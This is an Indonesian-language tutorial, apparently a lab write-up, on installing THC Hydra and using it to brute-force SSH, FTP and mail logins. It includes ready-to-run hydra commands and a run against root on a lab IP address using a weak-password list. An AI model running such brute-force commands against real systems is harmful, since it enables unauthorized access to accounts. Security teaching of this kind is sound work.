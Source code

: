 INSTALASI THC HYDRA
-------------------
- **Step 1**    : Clone repository THC Hydra
```
git clone https://github.com/vanhauser-thc/thc-hydra.git
```
- **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Hydra, ketik kode berikut di terminal:
```
cd thc-hydra
./configure
make
make install
```

SUPPORTED PLATFORMS
-------------------
- Semua platform UNIX (Linux, *bsd, Solaris, etc.)
- MacOS
- Windows dengan Cygwin (IPv4 and IPv6)
- Mobile systems based on Linux, MacOS or QNX (e.g. Android, iPhone, Blackberry 10, Zaurus, iPad)

UJI COBA
--------
**Contoh**:
```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `10.151.36.98` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :
```
hydra -l root -P 500-worst-passwords.txt 10.151.36.98 ssh
```
![](/assets/ncrack-hydra/hydra-gagal.png)
Uji Coba gagal karena password yang digunakan tidak berada dalam file [500-worst-passwords.txt](assets/ncrack-hydra/500-worst-passwords.txt), tambahkan password yang digunakan dengan cara:
```
echo "kucinglucu" >> 500-worst-passwords.txt
```
![](/assets/ncrack-hydra/hydra-sukses.png)

KESIMPULAN
----------
Dengan uji coba yang telah dilakukan, THC Hydra dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang. Jika password tidak terdapat dalam file, maka serangan akan gagal.








